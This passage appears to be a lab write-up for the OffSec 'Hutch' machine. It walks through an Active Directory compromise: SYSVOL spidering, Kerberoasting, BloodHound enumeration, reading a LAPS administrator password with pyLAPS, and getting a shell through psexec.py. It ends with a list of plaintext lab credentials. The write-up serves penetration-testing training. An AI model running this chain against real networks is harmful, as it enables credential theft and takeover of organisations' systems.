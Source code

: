 ```bash
sudo crackmapexec smb $IP -u fmcsorley -p CrabSharkJellyfish192 -M spider_plus --share 'SYSVOL'
```

**Kerberoasting**

```bash
GetUserSPNs.py -dc-ip $IP hutch.offsec/fmcsorley -request
```

![image.png](image%2015.png)

**Enumeration (BloodHound)**

```bash
sudo python3 /home/kali/.local/share/pipx/venvs/netexec/bin/bloodhound-python -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -ns $IP -c all
```

![image.png](image%2016.png)

## Privilege Escalation

Checking `Reachable High Value Targets` I found that our user has a privilege to read **LAPSPassword**.

![image.png](image%2017.png)

![image.png](image%2018.png)

```bash
python3 pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192"
```

![image.png](image%2019.png)

<aside>
💡

With the **LAPSPasswordRead** privilege, you can **only read `the local administrator passwords`** managed by **Microsoft LAPS** (Local Administrator Password Solution) for **`domain-joined computer` accounts** where LAPS is deployed.

</aside>

```bash
psexec.py hutch.offsec/Administrator:'X5MXM}9Or@Ij64'@$IP
```

![image.png](image%2020.png)

## Credentials

```bash
fmcsorley : CrabSharkJellyfish192
X5MXM}9Or@Ij64
```
